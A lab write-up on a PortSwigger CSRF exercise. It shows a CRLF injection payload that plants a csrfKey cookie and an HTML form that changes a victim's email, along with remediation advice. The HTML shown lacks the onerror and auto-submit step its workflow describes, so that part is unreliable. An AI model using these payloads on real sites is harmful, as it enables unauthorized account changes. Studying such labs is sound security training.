




# CSRF — Token Tied to Non-Session Cookie

## 📌 Lab Overview

**Platform:** PortSwigger Web Security Academy
**Category:** Cross-Site Request Forgery (CSRF)
**Vulnerability:** CSRF Token Not Properly Bound to Session
**Difficulty:** Practitioner

This lab contains an email-change functionality that is vulnerable to Cross-Site Request Forgery (CSRF).

The application uses a CSRF token as a protection mechanism, but the token is tied to a separate non-session cookie rather than being properly associated with the authenticated user's session.

The objective is to exploit this behavior and change the victim's email address using an attacker-controlled webpage.

---

## 🎯 Objective

Change the victim's email address by hosting a malicious HTML page on the PortSwigger exploit server.

The attack should work without knowing or including the victim's session cookie.

---

## 🔑 Provided Credentials

```text
wiener:peter
carlos:montoya
```

---

## 🔍 Vulnerability Discovery

While testing the `/my-account/change-email` functionality, I observed that the application used both:

* A `csrfKey` cookie
* A `csrf` parameter in the POST request

A normal request looked like:

```http
POST /my-account/change-email

Cookie: csrfKey=...
        session=...

email=example@gmail.com&csrf=...
```

Initially, the CSRF token appeared to be associated with the CSRF cookie.

I then tested whether the CSRF values were actually bound to the authenticated session.

The important observation was that the `csrfKey` cookie could be manipulated independently of the authenticated session.

---

## 🧪 Testing the CSRF Cookie

The search functionality was vulnerable to CRLF/header injection.

By injecting a newline followed by a `Set-Cookie` header, I was able to make the application return a separate `csrfKey` cookie.

Injected payload:

```text
test%0d%0aSet-Cookie:%20csrfKey=9JyLaTKIrsGJh2DiHPlbwos3gG67Ev4v%3b%20SameSite=None
```

The server response confirmed the cookie injection:

```http
HTTP/2 200 OK

Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=9JyLaTKIrsGJh2DiHPlbwos3gG67Ev4v; SameSite=None
```

This confirmed that an attacker could control the `csrfKey` cookie.

---

## 🔬 Understanding the Vulnerability

The application effectively validates the relationship:

```text
csrf token
     ↕
csrfKey cookie
```

but does not properly bind these values to:

```text
authenticated session
```

Therefore, an attacker can cause the victim's browser to receive an attacker-controlled `csrfKey` and then submit a matching CSRF token.

The victim's existing session cookie is automatically included by the browser.

### Vulnerable relationship

```text
        Attacker
           │
           ▼
   Inject csrfKey cookie
           │
           ▼
      Victim Browser
           │
     ┌─────┴─────┐
     │           │
csrfKey       session
     │           │
     └─────┬─────┘
           ▼
   Change Email Request
           │
           ▼
         Server
```

The server accepts the request because the CSRF token matches the attacker-controlled CSRF cookie.

---

## 💥 Exploitation

The malicious page contains an automatically submitted form.

### Exploit

```html
<html>
<body>

<form action="https://0a5000b00301e707809ed54a002100c9.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="attacker111@gmail.com">
    <input type="hidden" name="csrf" value="sUDRT6WzHm6TMzijITbwiHYKccD2jdcY">
<input type="submit" value="submit">
</form>


</body>
</html>
```
---

## ⚙️ Exploit Workflow

```text
Attacker creates malicious HTML
              │
              ▼
Victim opens exploit page
              │
              ▼
 requests vulnerable search endpoint
              │
              ▼
CRLF injection occurs
              │
              ▼
Set-Cookie: csrfKey=ATTACKER_VALUE
              │
              ▼
Victim browser stores csrfKey
              │
              ▼
 triggers onerror
              │
              ▼
Form automatically submits
              │
              ▼
email + matching csrf token
              │
              ▼
Victim's session cookie is automatically sent
              │
              ▼
Server accepts request
              │
              ▼
Victim's email is changed
```

---

## 🧠 Why the Attack Works

A secure CSRF implementation should associate the CSRF token with the user's authenticated session.

For example:

```text
Session A
   │
   └── CSRF Token A
```

An attacker should not be able to take:

```text
CSRF Token B
```

and use it with:

```text
Victim Session A
```

In this lab, however, the CSRF mechanism relies on a separate cookie that can be manipulated through the vulnerable search functionality.

Therefore:

```text
Attacker-controlled csrfKey
          +
Matching csrf parameter
          +
Victim's automatically supplied session
          ↓
       Accepted
```

---

## 🛡️ Impact

An attacker can potentially perform unauthorized state-changing actions on behalf of an authenticated victim.

For this lab, the demonstrated impact is:

* Unauthorized email address modification
* Account-related action performed without the victim's consent
* CSRF protection can be bypassed despite the presence of a CSRF token

If similar protection is used for other sensitive endpoints, the same weakness could potentially affect those operations as well.

---

## 🔧 Remediation

The CSRF token should be securely bound to the authenticated session.

Recommended measures:

1. Generate CSRF tokens server-side.
2. Bind each token to the user's authenticated session.
3. Validate the token against the session on every state-changing request.
4. Do not rely on a separately controllable cookie as the only CSRF validation mechanism.
5. Prevent CRLF/header injection by properly validating and encoding user-controlled input.
6. Use appropriate `SameSite` cookie protections as an additional defense, not as the sole CSRF protection.

A secure validation model should look like:

```text
Victim Session
      │
      └── CSRF Token
             │
             ▼
       Server Validation
             │
        ┌────┴────┐
        │         │
      Match     Mismatch
        │         │
     Allow      Reject
```

---

## 📸 Screenshots

Add screenshots showing:

### 01 — Lab



### 02 — Normal Request



```text
session
csrfKey
csrf
```

### 03 — Cookie Injection



```http
Set-Cookie: csrfKey=...
```

### 04 — Exploit Server


### 05 — Successful Exploitation



---

## 🏁 Conclusion

This lab demonstrates a CSRF protection weakness where the CSRF token is not properly bound to the authenticated user's session.

Although the application implements CSRF tokens, the protection can be bypassed because the CSRF-related cookie can be controlled independently.

By combining CRLF injection with an automatically submitted CSRF form, an attacker can cause an authenticated victim to perform an unauthorized email-change action.

### Key Takeaway

> **A CSRF token is only effective when it is securely associated with the user's authenticated session. Simply checking whether a request token matches a separately controllable cookie does not provide sufficient CSRF protection.**
